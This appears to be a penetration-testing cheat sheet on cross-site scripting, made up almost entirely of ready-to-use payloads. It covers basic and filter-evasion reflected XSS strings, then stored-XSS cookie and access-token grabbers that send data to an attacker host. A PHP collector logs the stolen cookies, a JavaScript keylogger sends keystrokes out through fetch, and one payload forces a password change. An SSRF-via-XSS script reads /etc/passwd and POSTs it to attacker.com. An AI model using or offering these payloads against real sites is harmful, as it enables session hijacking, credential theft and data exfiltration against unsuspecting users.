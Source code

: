 ```yaml
---
icon: file-code
---
```

# XSS

## Reflected XSS - Basic

```bash
<script>alert(1)</script>
<svg onload=alert(1)>
<img src=x onerror=alert(1)>
<script>debugger;</script>
<svg onload=alert(1)>
<svg/onload=alert(1)><svg>
<svg	onload=alert(1)><svg>
<svg><animate onbegin=alert("XSS") attributeName=x></svg>
<svg onload=alert&lpar;1&rpar;></svg>
<script>alert(1)</script>
</script><script>alert(1)</script>
<img src=x onerror=alert(navigator.appVersion)>
<img src=x onerror=alert(document.domain)>
<img src=x onerror=alert(window.location)>
```

## Reflected XSS - Filter Evasion

```bash
# Basic
<ScRiPt>alert(1);</ScRiPt>
<ScRiPt>alert(1);
<script/random>alert(1);</script>
>alert(1);</script>
<scr<script>ipt>alert(1)</scr<script>ipt>
<<script>script>alert(1);</</script>script>
<scr\x00ipt>alert(1)</scr\x00ipt>
<script><svg/onload=alert(1)></script>

# HTML tags
<a href="javascript:alert(1)">show </a>
<form action="javascript:alert(1)"><button>send</button></form>
<object data"javascript:alert(1)">

# HTML events
<body/onload=alert(1)>
<svg/onload=alert(1)>
<svg////onload=alert(1)>
<svg id='x';onload=alert(1)>
<svg onload%09=alert(1)>
<svg %09onload=alert(1)>

# Character escaping
<script>\u0061lert(1);</script>
<script>\u0061\u006C\u0065\u0072\u0074(1);</script>
<script>eval("\u0061\u006C\u0065\u0072\u0074\u0028\u0031\u0029")</script>
<script>eval("\u0061lert(1)")</script>

# Sanitization escape
<scr<script>ipt>alert(1)</scr<script>ipt>
<scr<script>ipt>alert(1)</script>
<scr<iframe>ipt>alert(1)</script>

# Escaping quotes '
\'alert(1);//

# URL encoding
%253cimg src=x onerror=alert(1)%253e

```

## Stored XSS

### Data grabber for XSS

Obtains the administrator cookie or sensitive access token, the following payload will send it to a controlled page.

```php
<script>document.location='http://attacker/grabber.php?c='+document.cookie</script>
<script>document.location='http://attacker/grabber.php?c='+localStorage.getItem('access_token')</script>
<script>new Image().src="http://attacker/cookie.php?c="+document.cookie;</script>
<script>new Image().src="http://attacker/cookie.php?c="+localStorage.getItem('access_token');</script>
```

Write the collected data into a file.

```php
<?php
$cookie = $_GET['c'];
$fp = fopen('cookies.txt', 'a+');
fwrite($fp, 'Cookie:' .$cookie."\r\n");
fclose($fp);
?>
```

### Javascript keylogger

Another way to collect sensitive data is to set a Javascript keylogger.

```php
<img src=x onerror='document.onkeypress=function(e){fetch("http://domain.com?k="+String.fromCharCode(e.which))},this.remove();'>
```

### Password changer

Redirects the user to a password change when it visits the page.

```php
<script>fetch('/settings?new_password=pass123');</script>
```

## SSRF via XSS

### Load external scripts via JS

Send the payload:

```jsx
<script src=http://attacker.com/a.js />
```

Script hosted on attacker machine to get local files, and POST back to attacker:

```php
var req1=new XMLHttpRequest();
req1.open("GET", "file:///etc/passwd", false); 
req1.send();
var response = req1.responseText;
var req2=new XMLHttpRequest();
var params = "data=" + encodeURIComponent(response);
req2.open("POST", "http://attacker.com/caue", true);
req2.setRequestHeader('Content-Type', 'application/x-www-urlencoded')
req2.send(params);
```

### Local files using PHP redirection

Send the payload:

```php
<iframe src="http://attacker.com/redirect.php">
```

File hosted on attacker machine - Redirect to local file:

```php
<?php
 header("Location: file:///etc/passwd");
?>
```

Many more payloads at [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)

